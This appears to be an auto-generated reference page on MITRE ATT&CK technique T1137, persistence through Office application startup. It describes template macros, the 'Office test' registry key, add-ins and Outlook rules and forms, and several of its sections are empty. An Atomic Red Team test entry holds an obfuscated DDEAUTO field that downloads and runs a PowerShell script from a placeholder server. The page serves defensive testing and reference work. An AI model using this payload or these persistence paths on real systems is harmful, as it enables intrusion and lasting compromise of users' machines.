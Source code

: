 
# Office Application Startup

## Description

### MITRE Description

> Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started.

### Office Template Macros

Microsoft Office contains templates that are part of common Office applications and are used to customize styles. The base templates within the application are used each time an application starts. (Citation: Microsoft Change Normal Template)

Office Visual Basic for Applications (VBA) macros (Citation: MSDN VBA in Office) can be inserted into the base template and used to execute code when the respective Office application starts in order to obtain persistence. Examples for both Word and Excel have been discovered and published. By default, Word has a Normal.dotm template created that can be modified to include a malicious macro. Excel does not have a template file created by default, but one can be added that will automatically be loaded.(Citation: enigma0x3 normal.dotm)(Citation: Hexacorn Office Template Macros) Shared templates may also be stored and pulled from remote locations.(Citation: GlobalDotName Jun 2019) 

Word Normal.dotm location:<code>C:\Users\\(username)\AppData\Roaming\Microsoft\Templates\Normal.dotm</code>

Excel Personal.xlsb location:<code>C:\Users\\(username)\AppData\Roaming\Microsoft\Excel\XLSTART\PERSONAL.XLSB</code>

Adversaries may also change the location of the base template to point to their own by hijacking the application's search order, e.g. Word 2016 will first look for Normal.dotm under <code>C:\Program Files (x86)\Microsoft Office\root\Office16\</code>, or by modifying the GlobalDotName registry key. By modifying the GlobalDotName registry key an adversary can specify an arbitrary location, file name, and file extension to use for the template that will be loaded on application startup. To abuse GlobalDotName, adversaries may first need to register the template as a trusted document or place it in a trusted location.(Citation: GlobalDotName Jun 2019) 

An adversary may need to enable macros to execute unrestricted depending on the system or enterprise security policy on use of macros.

### Office Test

A Registry location was found that when a DLL reference was placed within it the corresponding DLL pointed to by the binary path would be executed every time an Office application is started (Citation: Hexacorn Office Test)

<code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code>

### Add-ins

Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins)

Add-ins can also be used to obtain persistence because they can be set to execute code when an Office application starts. There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), Visual Studio Tools for Office (VSTO) add-ins, and Outlook add-ins. (Citation: MRWLabs Office Persistence Add-ins)(Citation: FireEye Mail CDS 2018)

### Outlook Rules, Forms, and Home Page

A variety of features have been discovered in Outlook that can be abused to obtain persistence, such as Outlook rules, forms, and Home Page.(Citation: SensePost Ruler GitHub) These persistence mechanisms can work within Outlook or be used through Office 365.(Citation: TechNet O365 Outlook Rules)

Outlook rules allow a user to define automated behavior to manage email messages. A benign rule might, for example, automatically move an email to a particular folder in Outlook if it contains specific words from a specific sender. Malicious Outlook rules can be created that can trigger code execution when an adversary sends a specifically crafted email to that user.(Citation: SilentBreak Outlook Rules)

Outlook forms are used as templates for presentation and functionality in Outlook messages. Custom Outlook Forms can be created that will execute code when a specifically crafted email is sent by an adversary utilizing the same custom Outlook form.(Citation: SensePost Outlook Forms)

Outlook Home Page is a legacy feature used to customize the presentation of Outlook folders. This feature allows for an internal or external URL to be loaded and presented whenever a folder is opened. A malicious HTML page can be crafted that will execute code when loaded by Outlook Home Page.(Citation: SensePost Outlook Home Page)

To abuse these features, an adversary requires prior access to the user’s Outlook mailbox, either via an Exchange/OWA server or via the client application. Once malicious rules, forms, or Home Pages have been added to the user’s mailbox, they will be loaded when Outlook is started. Malicious Home Pages will execute when the right Outlook folder is loaded/reloaded while malicious rules and forms will execute when an adversary sends a specifically crafted email to the user.(Citation: SilentBreak Outlook Rules)(Citation: SensePost Outlook Forms)(Citation: SensePost Outlook Home Page)

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: intentionally left blank
* Permissions: ['User', 'Administrator']
* Platforms: ['Windows', 'Office 365']
* Remote: intentionally left blank
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1137

## Potential Commands

```

```

## Commands Dataset

```

```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Office Application Startup': {'atomic_tests': [{'description': '\n'
                                                                                         'TrustedSec '
                                                                                         '- '
                                                                                         'Unicorn '
                                                                                         '- '
                                                                                         'https://github.com/trustedsec/unicorn\n'
                                                                                         '\n'
                                                                                         'SensePost '
                                                                                         'DDEAUTO '
                                                                                         '- '
                                                                                         'https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/\n'
                                                                                         '\n'
                                                                                         'Word '
                                                                                         'VBA '
                                                                                         'Macro\n'
                                                                                         '\n'
                                                                                         "[Dragon's "
                                                                                         'Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)\n',
                                                                          'executor': {'name': 'manual',
                                                                                       'steps': '1. '
                                                                                                'Open '
                                                                                                'Word\n'
                                                                                                '\n'
                                                                                                '2. '
                                                                                                'Insert '
                                                                                                'tab '
                                                                                                '-> '
                                                                                                'Quick '
                                                                                                'Parts '
                                                                                                '-> '
                                                                                                'Field\n'
                                                                                                '\n'
                                                                                                '3. '
                                                                                                'Choose '
                                                                                                '= '
                                                                                                '(Formula) '
                                                                                                'and '
                                                                                                'click '
                                                                                                'ok.\n'
                                                                                                '\n'
                                                                                                '4. '
                                                                                                'Once '
                                                                                                'the '
                                                                                                'field '
                                                                                                'is '
                                                                                                'inserted, '
                                                                                                'you '
                                                                                                'should '
                                                                                                'now '
                                                                                                'see '
                                                                                                '"!Unexpected '
                                                                                                'End '
                                                                                                'of '
                                                                                                'Formula"\n'
                                                                                                '\n'
                                                                                                '5. '
                                                                                                'Right-click '
                                                                                                'the '
                                                                                                'Field, '
                                                                                                'choose '
                                                                                                '"Toggle '
                                                                                                'Field '
                                                                                                'Codes"\n'
                                                                                                '\n'
                                                                                                '6. '
                                                                                                'Paste '
                                                                                                'in '
                                                                                                'the '
                                                                                                'code '
                                                                                                'from '
                                                                                                'Unicorn '
                                                                                                'or '
                                                                                                'SensePost\n'
                                                                                                '\n'
                                                                                                '7. '
                                                                                                'Save '
                                                                                                'the '
                                                                                                'Word '
                                                                                                'document.\n'
                                                                                                '\n'
                                                                                                '9. '
                                                                                                'DDEAUTO '
                                                                                                'c:\\\\windows\\\\system32\\\\cmd.exe '
                                                                                                '"/k '
                                                                                                'calc.exe"\n'
                                                                                                '\n'
                                                                                                '10. '
                                                                                                'DDEAUTO '
                                                                                                '"C:\\\\Programs\\\\Microsoft\\\\Office\\\\MSWord\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\{ '
                                                                                                'QUOTE '
                                                                                                '87 '
                                                                                                '105 '
                                                                                                '110 '
                                                                                                '100 '
                                                                                                '111 '
                                                                                                '119 '
                                                                                                '115 '
                                                                                                '80 '
                                                                                                '111 '
                                                                                                '119 '
                                                                                                '101 '
                                                                                                '114 '
                                                                                                '83 '
                                                                                                '104 '
                                                                                                '101 '
                                                                                                '108 '
                                                                                                '108 '
                                                                                                '}\\\\v1.0\\\\{ '
                                                                                                'QUOTE '
                                                                                                '112 '
                                                                                                '111 '
                                                                                                '119 '
                                                                                                '101 '
                                                                                                '114 '
                                                                                                '115 '
                                                                                                '104 '
                                                                                                '101 '
                                                                                                '108 '
                                                                                                '108 '
                                                                                                '46 '
                                                                                                '101 '
                                                                                                '120 '
                                                                                                '101 '
                                                                                                '} '
                                                                                                '-w '
                                                                                                '1 '
                                                                                                '-nop '
                                                                                                '{ '
                                                                                                'QUOTE '
                                                                                                '105 '
                                                                                                '101 '
                                                                                                '120 '
                                                                                                '}(New-Object '
                                                                                                "System.Net.WebClient).DownloadString('http://<server>/download.ps1'); "
                                                                                                '# '
                                                                                                '" '
                                                                                                '"Microsoft '
                                                                                                'Document '
                                                                                                'Security '
                                                                                                'Add-On"\n'},
                                                                          'name': 'DDEAUTO',
                                                                          'supported_platforms': ['windows']}],
                                                        'attack_technique': 'T1137',
                                                        'display_name': 'Office '
                                                                        'Application '
                                                                        'Startup'}}]
```

# Tactics


* [Persistence](../tactics/Persistence.md)


# Mitigations

None

# Actors


* [APT32](../actors/APT32.md)

* [APT28](../actors/APT28.md)
    
